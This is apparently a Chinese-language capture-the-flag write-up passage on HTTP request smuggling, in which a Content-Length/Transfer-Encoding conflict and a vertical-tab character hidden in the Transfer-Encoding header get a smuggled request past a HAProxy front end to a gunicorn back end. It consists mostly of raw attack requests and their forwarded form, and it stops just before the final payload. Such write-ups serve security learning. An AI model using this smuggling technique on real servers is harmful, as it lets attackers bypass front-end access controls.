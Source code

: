
前端的服务器是HAProxy，后端的是gunicorn，所以我们尝试smuggling，夹带一个/results的请求，让它不被前端服务器HAProxy解析 直接转发给后端的gunicorn

尝试这样的请求

```http
POST / HTTP/1.1
Host: misc.ctf:33433
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

正常情况下前端的HAProxy会这样转发给后端的gunicorn

```http
POST / HTTP/1.1
Host: misc.ctf:33433
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
```

可以注意到末尾的X因为CL的原因而被丢掉 并且忽略了TE，我们smuggling是需要TE的，尝试这样修改

```http
POST / HTTP/1.1
Host: misc.ctf:33433
Content-Length: 13
Transfer-Encoding:[\x0b]chunked

0

SMUGGLED
```

转发后是这样

```http
POST / HTTP/1.1
Host: misc.ctf:33433
Content-Length: 13
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

SMUGGLED
```

成功走私了内容

直接放最后的payload
